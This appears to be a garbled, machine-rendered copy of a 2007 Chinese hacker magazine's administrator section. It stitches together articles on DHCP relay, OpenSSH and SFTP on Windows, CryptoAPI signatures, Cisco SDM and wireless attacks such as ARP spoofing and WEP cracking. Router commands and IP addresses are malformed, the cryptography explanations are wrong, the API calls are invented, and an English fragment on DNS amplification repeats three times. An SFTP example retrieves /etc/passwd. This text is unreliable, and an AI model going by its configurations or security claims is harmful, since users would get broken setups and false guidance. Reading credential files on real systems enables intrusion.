DHCP客户端在开始发送时，IP地址通常具有一个租期限制。当租期过了一半后，客户端将发送设置的TCP/IP的请求进行更新。如果过了77.5%时，如果客户端仍无法成功与DHCP服务器连接，客户端将停止发送此类请求，并在一段时间后再次尝试连接。

## 1. DHCP协议

## 2. 三层交换技术

三层交换技术就是交换技术，它是一种三层交换信息中的数据。三层交换机具有二层交换的基础，数据转发是在二层和三层交换机的基础上，通过路由查找来实现。三层交换地址存在数量变化来不同的网络，三层交换机很大程度上提高了查找的效率。

## 3. 实现DHCP中代理

### 1) DHCP工作原理

DHCP客户端在启动时发送DHCP发现信息给DHCP服务器。在网络上通过UDP/IP协议将消息接收到交换机上，交换机后会向客户端发送信息。在客户端收到IP地址之前，DHCP服务器会再次发送从池中分配一个IP地址，客户端接收到IP地址后，向DHCP服务器回复一个DHCPrequest信息。

### 2) 三层交换的工作原理

假设两个二层交换机连接A、B，主机A在开始发送包含自己的IP地址的DHCP请求时，如果主机B不在子网内，A将数据包封装到默认网关，此时三层交换机收到后在路由查找查找B的MAC地址，将数据包重新封装成二层包发送给B。传输完成。实际应用场景中A、B处于不同的子网，这就要求我们配置三层交换机的配置如下：

```
Switch# vlan database
Switch(vlan)# vlan name server
Switch(vlan)# exit
Switch# config terminal
Switch(config)# interface vlan2
Switch(config-if)# ip address 192.168.1.1 255.255.255.0
Switch(config-if)# no shutdown vlan
Switch(config-if)# exit
Switch(config)# interface range 0/1-24
Switch(config-range)# port access
Switch(config-range)# spanning-tree portfast
Switch(config-range)# exit
Switch(config)# interface vlan 10
Switch(config-if)# switchport access vlan 10
Switch(config-if)# exit
```


# 3) 技术分析

DHCP的工作原理我们可以在客户和服务器之间通过广播的方式来实现，这种方式在共享一个VLAN的网络中容易冲突。当划分了多个DHCP服务器后，广播只限于所在的VLAN中，如果需要从不同的DHCP服务器获取，就不能获取IP地址和MAC地址。针对这些问题，我们可以在某一个VLAN中配置多个DHCP服务器、客户端、网关、默认网关和DNS服务器等信息，或者解决方案是设置多台计算机。

1. 初期需求：
2. 研发和财务部门不允许访问，也可以访问服务器所在的行政部门。
3. 拒绝来自外部的访问。
4. 允许外部访问互联网。

## 2. 拓扑结构

图1


图1

## 3. 详细配置

考虑到公司初期经济能力有限，所以使用一台 Cisco 4000 路由器，划分三个 VLAN 为服务器、客户和财务。VLAN 命名为服务器，IP 地址为 `192.168.1.20`，子网掩码 `255.255.255.0`，网关为 `192.168.1.182`，路由器连接了 Windows 2008 高级服务器，同时操作 DHCP 服务器、DNS 服务器。IP 地址为 `192.168.2.10`，子网掩码 `255.255.255.0`，网关为 `192.168.2.182`。

## 4. 具体配置

按照下列命令进行配置：

### 第一步 配置路由器和主机名

```
Switch:
Switch#enable
Switch(config)# terminal
Switch(config)#hostname C4006
C4006(config)#exit
```

### 第二步 创建VLAN中继

```
C4006#vlan database
C4006(vlan)#vlan 2 name server
C4006(vlan)#vlan 3 name research
C4006(vlan)#vlan 4 name finance
C4006(vlan)#exit
```

### 第三步 配置DHCP中继

```
C4006#config terminal
C4006(config)#service dhcp
C4006(config)#ip relay-address
```

### 第四步 配置IP地址

中继配置后，只需要在DHCP中继接口中配置指定的DHCP服务器的IP地址即可。

```
Switch:
Switch(config)#interface vlan 2
Switch(config-if)#no ip address
Switch(config-if)#ip address 192.168.2.1 255.255.255.0
Switch(config-if)#ip helper-address 192.168.1.20
```

## 应用实例

### 1. 需求分析

大学有位大学生，建立一个科技企业，涉及研发部和财务部。为了适应未来的规模和安全考虑，首先提出需求如下：

```
C4006#config terminal
C4006(config)#interface vlan 2
C4006(config-if)#ip address 192.168.1.182 255.255.255.0
C4006(config-if)#shutdown
C4006(config)#interface vlan 3
C4006(config-if)#ip address 192.168.1.183 255.255.255.0
C4006(config-if)#no shutdown
C4006(config)#interface vlan 4
C4006(config-if)#ip address 192.168.1.184 255.255.255.0
C4006(config-if)#no shutdown
```

```
0.255 192.168.182 0.0.255
C4006(config)#access-list 10 permit any eq bootcp
C4006(config)#access-list 10 permit any eq ftp
C4006(config)#access-list 10 permit any eq bootcp
C4006(config)#access-list 10 permit any eq ftp
C4006(config)#access-list 10 permit ip 192.168.182 0.0.255
C4006(config)#access-list 10 permit ip 192.168.184 0.0.255
C4006(config)#access-list 12 permit ip 192.168.184 0.0.255
C4006(config)#access-list 12 permit any eq bootcp
C4006(config)#access-list 12 permit any eq bootcp
```

### 第五步 设置端口全局

```
C4006(config)#interface fastethernet 0/1
C4006(config-if)#switchport mode access
C4006(config-if)#spanning-tree portfast
```

### 第六步 划分

```
C4006(config)#interface fastethernet 0/8
C4006(config-if)#switchport access vlan 2
C4006(config)#interface fastethernet 0/9
C4006(config-if)#switchport access vlan 3
C4006(config)#interface fastethernet 0/10
C4006(config-if)#switchport access vlan 4
C4006(config)#exit
```

### 第七步 配置DHCP服务器地址

```
C4006(config)#vlan 3
C4006(config-if)#ip helper-address 192.168.182
C4006(config)#vlan 4
C4006(config-if)#ip helper-address 192.168.182
```

### 第八步 设置访问控制

```
C4006(config)#ip route
C4006(config)#access-list 10 permit ip 192.168.182 0.0.255 192.168.183 0.0.255
C4006(config)#access-list 10 permit ip 192.168.183 0.0.255
```

### 第九步 访问控制列表

```
C4006(config)#vlan 3
C4006(config-if)#ip access-group 10 in
C4006(config)#vlan 4
C4006(config-if)#ip access-group 10 in
```

### 第十步 保存配置文件

```
C4006(config)#end
C4006#copy running-config startup-config
```

## 结语

实现DHCP代理的方法有多种，包括使用 Windows 2000路由、访问路由以及 Windows 2003 Server提供的DHCP代理，但是用三层交换技术实现DHCP代理是最实用的、高效的方法。


# 主宰师傅的利润

文 / 戎下的狂徒

CPU 数据运气

广东人说运气坏不一定，所以人的很多好事靠运气就暴富了，今天我就给大家谈谈关于主机性能的信息，一起来谈谈好运的窍门。

在现在的“ASP转向”时代，很多时候核心的技术已经不是网络开发的“ASP转向”，由于“ASP转向”使用非常泛化已经成为一种必然的趋势，所以我认为这对于大家是有必要的。

打开“ASP转向”的源码，见图1所示。从源代码里可以看到，它并不是对系统进行修改在ASP转向并不可能执行有效的系统内核指令，除非DLL引入的例外，只是简单的读出系统生成的参数，这类系统参数就可以在系统属性中进行修改，如图2。

图2显示了在系统属性中修改CPU数据的对话。把它拆成4个CPU，看看“ASP转向”是如何检测CPU数量的

## ADMINISTRATOR CLUB

> 标题 | | liulu@hacker.com.cn

# 实现计时器

下我们先来看代码，如图4所示。

```
public class Timer {

    private Timer timer;

    public Timer(int interval) {

        timer = new Timer(interval);

        timer.addActionListener(new ActionListener() {

            @Override

            public void actionPerformed(ActionEvent e) {

                System.out.println("Timer triggered!");

            }

        });

    }

    public void start() {

        timer.start();

    }

    public void stop() {

        timer.stop();

    }

}
```


图1

| 属性 | 类型 | 描述 |
| --- | --- | --- |
| `interval` | `int` | 计时器间隔（毫秒） |
| `running` | `boolean` | 计时器是否运行 |


图2


图3


图4


图5


图6


图7


# ADMINISTRATOR CLUB

在这次我用虚拟机装系统时快到正常速度的10倍，你敢相信，快了5倍。现在我们就可以看看了，如图7、图8所示。


图7


图8

不单CPU的运行速度、磁盘操作速度与所有时相关的测试结果大不同，本人的操作速度内存是48G而已，但是测试出来的结果比服务器快了。

- 适合硬件：网管安卓系统
- 前置要求：无

## VIP学会养成成果


文/ 段风五

看了刚出版的《让系统更新更轻松》一文，我决定要写这篇，是因为Pro功能太多的，对于我们大家大白来说实在太不容易了。

用读者的话来说，我们最主要的目标就是保护和CMOS，由于我们更新就能保护CMOS和新的软件可以，所以我在网管这边推荐三一更新（软件可能会影响系统，请使用时注意）。

## 软件教程

三一更新不换系统，可以实现不换硬盘系统和CMOS的参数又能保护系统，如果我们更新安装之后，如果病毒感染了系统，上不去了，或者游戏坏了，只需按F9，二秒钟后就能恢复旧。

## 安装设置

双击重启，然后在这里点击“下一步”——一下“安装设置”这里，我们点击可以选择保护系统的`C`，输入密钥后，就可以开始安装设置，如图所示：


图1

点击“下一步”，安装程序。如果是安装了另一个操作系统，则每个系统都要进行安装，因为我的电脑是双操作系统，所以直接连接一个操作系统，或者所有操作系统已经安装完毕，如图2所示。显示出来“注意事项”，提示是否需要重启电脑，选择第一项立即重启我的系统，电脑马上重启并连接所有系统，安装完成后结束了，如图


www.hacker.com 2007年春季版（上）

# ADMINISTRATOR CLUB

（管理员 ）刘刘 | liuliu@hacker.com

## 多服务器环境的安装配置

配置服务器通常需要多个步骤，需要对服务器进行配置。


图 2


图 3

| 注意 | |
| --- | --- |
| 登录 | 第一次登录时需要输入用户名和密码登录系统。 |
| | 连续输入密码错误三次，系统将锁定该账户。 |
| | 连续输入密码错误后，联系管理员解锁账户。 |
| | 如果发现账户被锁定，可以联系管理员。 |
| 重置密码 | 可以在用户设置界面中进行重置密码。 |

图 5

进入界面后我们可以对系统进行恢复、保存、设置等。

### 软件使用

我们用起来非常简单，只要在系统重启时点一下 F9 就可以了，如图 4 所示。


- 按 9 自动恢复到上次保存的状态。
- 按 0 放弃当前修改的操作。
- 按 HOME 进入一个服务器的设置菜单；如图 5 所示。

- 适合客户端、管理员、服务器
- 前置要求：Windows

### 注意事项

- 1. 在 BIOS 中硬盘的访问模式调整为 LBA 模式。
- 2. 安装后不要使用 Windows 启动系统扩展功能。
- 3. 重要的数据存放在非被保护的分区上，否则操作会导致数据丢失。
- 4. 避免使用非法软件的情况。
- 5. 使用时注意活动区域的变化，鼠标移动到磁盘图标上即可。

怎么样？恢复就是这么简单，还不起起来吗？


## 什么是文件服务器

文/图 

在 Windows 本客户端，传输的网络服务（如 FTP、Pop 和 Telnet）在网络上是不安全的，因为它们在网络上明文传输数据和密码，黑客很容易获取这些数据和密码。OpenSSH 的安全认证机制可以确保传输的数据被加密，防止被窃听。再次使用用户数据传输准确的密码、服务和服务所有数据传输到“中”后松手，就会离开当前区域的范围，我们将如何实现网络安全传输？

## OpenSSH 简介

OpenSSH 是一个基于 SSH 的网络连接工具，包含所有使用 OpenSSH 工具的通讯打开、文件都会被加密，它可以有效地防止各种窃听手段。OpenSSH 是运行在 Unix/Linux 环境下的，它在 Windows 下同样可以安装、配置、部署。使用 OpenSSH 确保传输的安全，OpenSSH 版本的某些目录有关。

## Windows 下 OpenSSH 安装

第一步：下载 `Setup.exe` 程序，安装完成后将设置参数正确。修改 `/etc/passwd` 文件以正确配置，确定密钥并配置。安装后可以看到 `Quickstart.txt` 文件的内容，打开 Windows www.hacker.com `CMD` 命令，以管理员方式运行 OpenSSH 的二进制文件，建议目录为 `C:\Program Files\OpenSSH`。

第二步：在 OpenSSH 中创建用户组。首先在 Windows 用户组中创建，这一步是必须的，具体的命令为 `mkgroup -u etc\group` 用户组创建第一步是创建，第二步是添加数据。使用 `-i -d` 参数将分组到用户组。然后将 OpenSSH 中的用户写入。使用以下命令加密 `passwd -u etc\passwd`。完成后，执行命令后，将密码写入 OpenSSH Server。这里我们将加密后的密码必须确保它是存在的。如果没有密码文件或足够权限，系统中的用户无法连接 OpenSSH 服务，用户从其他地方连接会有情况，使用 `-i -d` 参数即可，具体操作如图所示


第三步：使用命令 `net start sshd` 启动 OpenSSH 服务，关闭 OpenSSH 服务命令 `net stop sshd`。

## 如何使用 OpenSSH 服务器

在情况下，在 `CMD` 中使用 `ssh`、`scp` 命令连接 OpenSSH Server，这里例如：
`ssh -p <用户名>@<主机IP>`
`scp -p <用户名>@<主机IP>:<路径>`

连接 OpenSSH Server 后，如果要求输入密钥，我们可以通过 `~\ssh\config` 文件通过上述命令来记住。对于初学者来说这是一个不错的尝试。WinSCP 是一个 Windows 下的文件传输工具，支持 SSH-2 和 SFTP，支持生成密钥。WinSCP 出现登录界面，如图 2 所示。这些就是连接 OpenSSH 服务器名、用户名、密码后，点击“登录”按钮连接 OpenSSH。

| 用户组 | 权限 | 组ID |
| --- | --- | --- |
| Administrators | 管理员 | 544 |
| Users | 用户 | 501 |

图 2


图 3

WinSCP 的窗口界面类似于 Windows 资源管理器，使用起来非常方便，与 Windows 无缝集成，可以在管理器和 OpenSSH Server 之间直接操作，完成文件的上传和传输。在 OpenSSH Server 中的管理器中双击，使用 WinSCP 来对服务器上的文件进行编辑、复制、重命名以及新建文件等操作。WinSCP 支持连接本地和远程服务器进行操作，我们只需要 WinSCP 在连接目录中选择目录，点击菜单“文件”，在系统设备中查看。此外，利用工具的连接可以保持开启，让程序在后台，继续浏览目录或实用功能，点击“会话”菜单，可以重新连接、保存或断开连接。

## 总结

通过使用 OpenSSH 的相关命令，我们现在实现了 Windows 下文件的操作管理，有效地得到了，对于服务器的安全来说，这些都是值得的。对于学校、公司等需要保证传输来说，这种方法是一种最佳的解决方案。


www.hacker.com
(版权 2007) 郭建萌 版权所有
第 1 册

# ADMIN CLUB

[ 栏目首页 ] [ 邮件 ] liulu@hacker.com_cn

适合读者：网络爱好者，网管者

前言语：无

## VIP学会实战成果

### 连通——FTP服务器

大家都知道如何搭建一台 FTP 服务器，另一台运行是非常方便的，可是大家想要做到一台 SFTP 服务器吗？最近我在网上搜了搜，找到了另一款适合的软件：SFTP。

#### 环境配置

SFTP是一个客户端应用程序，它可以作为系统的客户端运行，支持各种安全特性。

- `[serverName]` (服务器地址) - 默认使用22 端口
- `-p` `[port]` (端口) 可以指定服务器名和端口。
- `-s` 脚本模式
- `-v` 详细信息

以交互方式连接，`-d` `[filename]` 可以显示 DEBUG 的调试信息，可以通过终端查看；`-f` `[filename]` 以交互方式连接，如果 FTP 连接不中断，则可以。

`-B` `[filename]` 指定要配置的文件，以自动执行参数

参数所有如下：
`-p` `[port]` 指定连接的端口，默认以21 端口连接。

#### 使用方法

使用 FTP 客户端时输入命令如下：`[用户名]` 内容，这里的命令格式如下：`[用户名]` 可能不可用，因为我们可以在一次性执行一个命令，或者执行多个命令交互。`EXEC [命令]` 执行指定的命令；`-h` 显示命令；`cd [路径]` 设置当前工作目录，用户输入绝对路径或相对路径。`USER [username]=[password]` 修改用户的密码，这需要用户拥有 SFTP 服务器的管理权限。`PATH` 修改当前目录以及访问权限，当前用户必须具有 SFTP 管理权限。使用：`PATH user=<username> vdir=<dir> rdir=<dir> 目标=<FILE_READ,WRITE,DELETE,DIR_LIST,DIR_MAKE> password=<password>` 修改服务器密码。连接后，修改该目录以及权限，当前用户必须具有 SFTP 管理权限。`SETdir` 设置目录，命令在SFTP 服务器配置文件中生效，用法：`setconf [option]=[value] [level=<level>] [port=<port>]` (显示所有配置)，其中只有默认`port=<port>` 可以修改。

#### 连接到 SFTP 服务器

```
sftp -port=22 -user=root -h="-keepalive" -maxautries=1000 true -user=root@txt
```

连接后，修改该目录以及权限。由于用户具有 SFTP 管理权限，用法如下：

```
sftp@example

cd /tmp

put test.txt

get /etc/passwd

quit
```

使用完成后设置自动 SFTP 服务并启动服务，服务名称：`vftp.bat`，自动创建一个文件，这里包含了 SFTP 的运行命令，我们在实际应用中执行命令创建一个性的脚本，为了方便打包，最后用 RAR 执行bat 压缩文件。最后我们测试一次，运行正常，看到这里


# ADMINISTRATOR CLUB

## 数字签名 | 刘

适合读者：网络爱好者、网管
前置知者：无

### 数字签名

LAN内部的秘密


文/图 中科院 东方

### 前言

在当今社会，计算机签名随着互联网的发展，计算机网络已成为全球的基础。信息交换频繁，数字签名成为各个领域、企业实现无赖的关键。数字签名的安全性日益重视，为了防止信息被篡改、伪造和身份认证等问题出现，数字签名在互联网上的应用范围包括数字认证证书（CA）、以及数字签名的钥和密钥。由于企业内部网络与互联网之间的隔离，内部网络受到限制。因此我们尝试使用数字签名加密的文件和数字签名系统，在内部实现数据的安全传输。

### 公密钥签名原理

数字签名是对数据进行加密编码，或者隐藏信息内容，使用私钥对信息进行签名。使用的私钥和签名密钥（也称为签名密钥）与使用的公密钥是相同的。常用的算法是 DES（Data Encryption Standard）数字签名算法，DES 的内部结构使用相同的密钥，但它仅使用私钥来保证信息的保密性。

公密钥签名技术使用不同的公密钥和私密钥，一个用户拥有一对密钥，公密钥可以公开，私密钥则由用户自己保存。数字签名技术使用RSA算法，RSA签名算法对这种技术有几点注意：

- 1. 用 A 的 `KU` 加密的信息只能用 A 的 `SK` 解密，并用 A 的 `SK` 解密信息不需要 A 的私钥
- 2. 签名时不需要不同的私密钥
- 3. 在签名时产生数据的公钥和私钥
- 4. 若使用公开密钥（`KU`），则在签名时使用的对应的 `SK`

### 数字签名技术原理

数字签名是对信息中的某些数据或对数据进行签名加密，这种加密数据或签名使用接收方来确认信息的真实性，并且发送方不能否认发送的信息，或者接收方非法不能伪造或篡改发送的信息，数字签名类似于手工签名。下面是使用公钥体制实现数字签名的具体实现过程。

#### 1. 签名生成

发送方对发送的信息进行 Hash 运算，形成哈希，Hash算法一种要求的数字函数，这种哈希值的长度没有限制，对于任何数据都能生成相同长度的输出，并用哈希信息传递接收方，并用指定的私钥加密哈希来生成相同的签名。

#### 2. 加验证

发送方使用的私钥对该信息进行加密，形成原始签名的数字签名。

#### 3. 发送

发送方将原始信息和数字签名一起加密形成传输格式的密文发送给接收方。

#### 4. 验证签名

接收方收到密文后用其私钥解出签名，然后对原始数据进行 Hash 运算，对比签名，一致说明真实性。


# ADMINISTRATOR CLUB

```cpp
CryptGenEncrypt(hProv,ENCRYPT_ALGORITHM,CRYPT_PROPTABLE, &hKey);
CryptExportKey(hKey,hSignPubKey,SIMPLEBLOB,0,pbKeyBlob,&dwKeyBlob);
CryptDestroyKey(hKey,DWORD,hhDestination);
PwFreeBuffer(pbKeyBlob,dwKeyBlob);
```

```cpp
// 导入的公钥
CryptImportKey(hProv,pbKeyBlob,dwKeyBlob,0, &hKey);
CryptFreeContext(hProv);
// 签名
ifCryptSignSignature(hProv,hKey,0,pbSignHash,pbSignature, &dwSignatureLen);
```

```cpp
if(CryptVerifySignature(hProv,pbSignHash,dwSignatureLen,pbSignature,dwSignatureLen)) {
    printf("签名有效\n");
} else {
    printf("签名无效\n");
}
```

```cpp
// 输出哈希值
printf("数字数值无效\n");
Else
printf("签名无效\n");
```

#### 4. 公钥输出到文件

```cpp
CryptGetUserKey(hProv,AT_SIGNATURE, &hKey);
// 导出用户公钥
CryptExportKey(hProv,hKey,PUBLICKEYBLOB,0,pbKeyBlob,&dwKeyBlob);
pbKeyBlob=new(DWORD)dwKeyBlob;
// 将公钥写入文件
PwWriteFile(pbKeyBlob,dwKeyBlob,hDestination);
PwFreeBuffer(pbKeyBlob,dwKeyBlob);
```

#### 6. 读取加密的密密钥，并用其私钥解密密码

```cpp
FreeReadFile(pbKeyBlob,dwKeyBlob,hSource);
CryptImportKey(hProv,pbKeyBlob,dwKeyBlob,0, &hKey);
```


```cpp
PwFreeBuffer(pbKeyBlob,dwKeyBlob);
```

```cpp
// 使用导入密钥解密文件
CryptDecrypt(hProv,pbFile,0,0,pbFile,dwFileLength);
PwFreeBuffer(pbFile,dwFileLength);
PwFreeBuffer(pbKeyBlob,dwKeyBlob);
```

## 结语

密码加密技术和数字签名技术是一项重要技术，早已应用到了各个领域。以下是本文介绍的案例已经应用于邮件服务器传输中，并准备尝试将此技术应用于文件服务器加密数据，并在文件传输通过加密传输时，我们通过部署企业内部VPN网络，密钥和数字签名技术，实现了内部数据的安全传输，同时也保证了传输的完整性和可靠性。

## 5. 文件对对加密

```cpp
// 导入服务器的公钥
CryptImportKey(hProv,pbKeyBlob,dwKeyBlob,0, &hKey);
```

```cpp
// 创建一个加密文件，使用私钥加密后
将加密后的结果输出到文件
```

流：：FTP服务器在网络上的应用非常广泛，由于存在FTP服务器上处理大文件，以及频繁的文件变动情况，通过加密可以提高FTP服务器的传输效率，还能增强其安全性，对于网站的管理，根据不同的文件类型（如ASP文件）进行加密转换，可以快速生成不同的木码。

适用感谢，网络朋友们，此致

前置条件:

## FTP服务器设置


文 / 郭建

### 管理FTP服务器

相同的FTP组件相比，FTPSearch是FTP服务器的“极限增强版”。它可以使用管理员在FTP服务器上的文件变动情况了得如心。

### ADMINISTRATOR CLUB

首页 > 列表 > liuliu@baidu.com.cn


说明FTP服务器上的文件发生了变化，例如你的文件执行了`Updates`（更新）、`Deleted`（删除）、`New`（新建）操作，在指定的FTP服务器上的右键单击选择`Lists Data`，打开文件变化监控窗口，如图3所示。


图3

扫描FTP服务器，点击菜单`FTP-Servers Search Wizard`，在操作帮助引导下，选择要扫描的路径、开始扫描。你可以选择活动模式、自动扫描设置，完成后，可以使用结果。

在文件列表中显示了所有发生的信息，如果你的文件没有变化，可以在`Scheduled updates`中设置日期和时间，或者`File masks`中设置只支持的文件，在`Search files`中设置目录，菜单中选择扫描范围和文件类型（`New`, `Modified`, `Deleted`），最后点击确定，你可以查看FTP服务器上的目录、更改，如图2所示。

在FTP服务器上点击`Ctrl+F4`打开服务器面板，在菜单点击`Refresh`查看发现的服务器列表。如果服务器在列表中的状态显示`Available`，则双击服务器名称，按`F5`键来调整扫描设置。

### 探测FTP服务器

连接某个服务器后，首先选择当前的服务器，在FTP服务器上点击左键`F6`，扫描列表中的所有服务器进行探测。如果服务器的状态为可用，未中的，则在该服务器上右键单击`Scan Server`。

在FTP服务器上探测后，列表中的状态列显示`Updates`，如果服务器发生了变化，需要重新连接到服务器，再次进行扫描操作，列表中的状态列显示`Changes`，该状态根据上次扫描的时间而变化，如图2所示。此外，FTPServer还能监控文件变化，在指定的FTP服务器上右键单击`Settings`，在服务器设置窗口中点击`Periodic scanning`设置扫描间隔（以分钟或单位）`Scheduled scanning`设置开始时间、扫描次数后，FTPServer将自动监控文件的变化。

### 连接FTP服务器

当服务器连接完成后，你可能需要快速下载一些文件，使用内置的FTP工具下载，在服务器面板列表中选择你想下载的服务器，在某个服务器上点击`Find`打开文件窗口，在`Server`设置中切换服务器在`File masks`中设置文件类型，`Search directory`设置目录，搜索显示的范围包含多个文件、目录，点击`Find`按钮进行操作，符合条件的文件，在某个服务器中点击`Download files`，你需要下载的文件（手动）。


图2

### ADMINISTRATOR CLUB

| 登录 | Server | User | Group |
| :--- | :--- | :--- | :--- |
| files | | | |
| / | | | |
| /etc | | | |
| /bin | | | |
| /root | | | |
| /usr | | | |
| /var | | | |
| /home | | | |
| /dev | | | |
| /tmp | | | |
| /lib | | | |
| /opt | | | |

作者在`File category`中选择`Download Files`并开始下载，点击`OK`下载的文件，还能调节下载的速度。在`FTPSearch`点击`Option` -> `Download Settings`，在`Connection`中选择`Connection type`，可以选择下载的速度。`M4.4 Modem LAN 100M`等速度选项，如果选择`Other`，则手动指定下载的速度。

对于一个网络哥来说，有了这个再也不用担心恶意软件安装在服务器留下痕迹了。希望的话赶紧拯救自己的服务器吧！

适合读者：管理员，网络爱好者，工程师
介绍 Cisco 设备操作

## 利用SDM实现系统类数据库

文/李华

SDM(`Security Device Manager`)是Cisco公司提供的全图形化路由器配置工具，SDM Web通用版，具有技术和交互图形界面，让用户无需复杂的Cisco命令，即可轻松地管理路由的状态、安全和配置，支持Easy VPN、VPN、IPoS、DHCP、地址转换等命令。对于中小型网络负责的管理员来说可以使用SDM轻松地维护路由器，创建网络结构。本文将介绍如何利用SDM实现各种功能，并对具体操作方法进行演示。

### SDM功能

Cisco为我们提供一系列可靠的工具，引导网络配置快速备份，而且具有多种格式。我们可以从路由器导出/导入配置：

- 配置快速备份
- 创建启动隧道
- 创建VPN、VPN/DTTP用于VPN连接和管理隧道
- 在路由器上运行安全检查并试图解决所有安全问题
- 创建基础备份
- 在路由器上建立“NAT”轨迹

使用的路由器创建基础备份后，可以使用SDM编辑器的配置，可以将路由器配置为防火墙创建策略，或者在路由器上配置和部署入侵服务器（IPS）以阻止非法访问，方便用户访问路由器并进行路由器的配置管理。

### 支持SDM的设备

使用SDM配置用户，在路由器之间使用相同的HTTP连接和SSH v2协议，安全可靠。目前Cisco的大多数中小型路由器包括86xx、17xx、26xx、37xx、72xx、75xx等号号均支持SDM，但并不是所有路由器都支持。SDM的1.2之前的版本并不支持SDM，具体操作见表1。

| 端口号 | 描述 |
| :--- | :--- |
| 80, 443 | HTTP, HTTPS |
| 1701, 1711, 1712 | (VPN) |
| 1712, 1751, 1751-1 | (VPN) |
| 1760, 1780 | (SSH) |
| 2601, 2610, 2661 | (SSH) |
| 2650, 2651 | (SSH) |
| 3620, 3640, 3641, 3661, 3662 | (SSH) |
| 3725, 3745 | (SSH) |
| 7200XR, 7200 | (SSH) |

SDM程序可以安装在PC上，也可以在路由器上安装，安装后方便管理整个路由器的状态。由于路由器无法访问所以先将程序到路由器，安装后基本占用约4MB空间，Cisco SDM Express（5MB）用于路由器的初始化，重启后，可以使用SDM在路由器上进行实例。

### 路由配置方法

1. 低版本的使用SDM配置方法

1.2之前的iOS可以删除旧iOS，加载新版本iOS，具体操作如下

```bash
Router delete old <image-name>
Delete flash/<old image-name>
confirm
Router copy http://<server address>/<new image-name> flash
Router restart
```

2. 下载路由器文件在4M左侧，下载文件之前检查空间。

```bash
Router copy http://<server address>/shim flash:
Router copy http://<server address>/shim flash:
Router copy http://<server address>/configuration-name flash:
Router copy http://<server address>/configuration-name flash:
```

3. 配置路由器基于应用程序

步骤1:使用isco命令配置服务

```bash
Router(config)# ip server
Router(config)# http server
Router(config)# http authentication local
```

如果使用SEC配置路由，则将使用HTTP服务。步骤2:通过线路权限（启用权限）创建用户。

```bash
Router(config)# username <username> privilege 15
password <password>
```

步骤3:为本地用户15级权限配置SSH和远程登录。

```bash
Router(config)# vty 0 4
Router(config-line)# privilege 15
Router(config-line)# login
Router(config-line)# transport input all
Router(config-line)# exit
```

步骤4:(可选)使用本地用户支持远程控制

```bash
Router(config)# logging buffered 3200 warning
```


单击任意SD窗口中的“帮助”按钮即可获取有关执行任务的详细指南，并且SD将自动保存到路由器运行的配置，并将保存到启动配置，图2为接口配置。

通过我们可以轻松实现安全审计它能监控并过滤Tcp/UDP的服务。IP Route Source、MP不安全的连接，启用密码加密、Banner等、Http、VPN加上加密安全...通过SDM配置的功能包括NTP、DNS、AAA、图2显示了一个应用程序的控制列表，这里是SDM配置的信息，图3。


# 结束语

作为路由器，SDM是一种技术含量高的网络设备，涉及各种技术、术语，然后运行SDM各种路由器，并处理各种配置。对路由的设置正常会有常见异常，本文将从路由器列表开始描述SDM的功能进行介绍，其也有其他类如，SDM下载地址：`http://www.cisco.com/pub/bin/tablebuild/sdm` (需要下载)，在安装SDM之前请计算机先安装JRE 1.4_2，如果尚未安装，可以访问SD官网下载。

# 无线网络

适合：安全爱好者
前置知识：无线网络基础

作者/ 慕云远[江苏大学信息安全实验室 ]

无线网络安全的方面非常复杂。从安全的角度来看，它有漏洞、802.11x、CDMA、GSM 和 3G 的角度来看，它有弱点；从硬件、加密、手机、终端、笔记本 PC 的角度来看，它有弱点。

## 1. 无线钓鱼

已经不是什么新技术了，无线网络的出现

## ADMINISTRATOR CLUB

似乎这个问题被放大了。比如，如果另有内网连接，必须通过层层渗透，进入内部网络，这样就不有问题了；我是知道微软软件的攻击者，可以通过内核漏洞获取权限，解决网络防御其实非常困难，还可以使用第三方的加固。

在提出来后，我们有一个Ethernet网线在防火墙下但是，但是使用AirPeer可以，但不知何原因。如图2所示。

### HTTPS+WEB

### 4. 身份伪改

如果知道了你的IP，这个攻击就要最好的。通过ARP的攻击是公开放的，许多无线设备可以造成这个攻击的工作，由于802.11b无线信号可以渗透到802.4无线路由器，我们可以，路由器本身就是一种无线的连接，可以相同的

通过WLAN的攻击，相同的在靠近有路由器的情况下，由于信号强度差异会导致巨大的差异。如图3所示（注意下方的身份伪造列表）


this, is the first documentation of a new attack used to significantly larger data sets via extended DNS queries. In addition to other uses such as DHCP requests:

- DNS Attack
- RST Strike Back
- Attacking Windows
- Attacking Android
- Attacking Mobile Devices
- Attacking Phones
- Malware Threats
- Exploiting Undisclosed Vulnerabilities
- IDS Introduction to Help

Randall Vaughan,
of `dns-query-amplification-attacks.pdf`

received massive name queries to amplify DDoS. Analysis of these attacks shows that the attacker can spoof the source IP address.

is the process of following the chain of the attack to identify the spoofed source IP address in the authoritative name server to receive massive number of requests and queries from clients,


- DNS Attack
- RST Strike Back
- Attacking Windows
- Attacking Android
- Attacking Mobile Devices
- Attacking Phones
- Malware Threats
- Exploiting Undisclosed Vulnerabilities
- IDS Introduction to Help

queries from a local, or authorized clients.

this is the first documentation of a new attack used to significantly larger data sets via extended DNS queries. In addition to other uses such as DHCP requests:

### 2. WEP 攻击

有等加密的WEP (Wired Equivalent Protocol) 是一个包含802.11标准的无线安全协议，它在无线链路层发送数据时进行加密，加密使用了了密钥，由于我们一定使用它，但是必须是基于加密的，因为我不推荐用户使用WEP，对于任何密钥的WEP加密，对于任何密钥的WEP，如果使用的加密算法（RC4）就是无法实现的。

Randall Vaughan,
of `dns-query-amplification-attacks.pdf`

is the first documentation of a new attack used to significantly larger data sets via extended DNS queries. In addition to other uses such as DHCP requests:

- DNS Attack
- RST Strike Back
- Attacking Windows
- Attacking Android
- Attacking Mobile Devices
- Attacking Phones
- Malware Threats
- Exploiting Undisclosed Vulnerabilities
- IDS Introduction to Help

received massive name queries to amplify DDoS. Analysis of these attacks shows that the attacker can spoof the source IP address.

还有很多漏洞，WEP加密的漏洞是非常严重的，由于需要的密钥，AiroP和WEP破解WEP加密是非常困难的。

如果使用的加密算法（RC4）就是无法实现的。

is the process of following the chain of the attack to identify the spoofed source IP address in the authoritative name server to receive massive number of requests and queries from clients,

### 3. MAC 攻击与 AP 间攻击

queries from a local, or authorized clients.


### 5. 保卫无线密码

即使是由于 MAC 攻击，被黑客的无线网络连接可能是不可能的，这并且不会出现重新登录信号，但是通过大量的无线路由器可以修改地址

- 1. 不为AP中使用用户的用户名和密码。
- 2. 将设置的安全的位置，让用户连接AP时比较困难。
- 3. 使用第三方方案 WEP 或 IPsec 等 VPN。
- 4. 修改默认的服务。
- 5. 设置MAC地址。

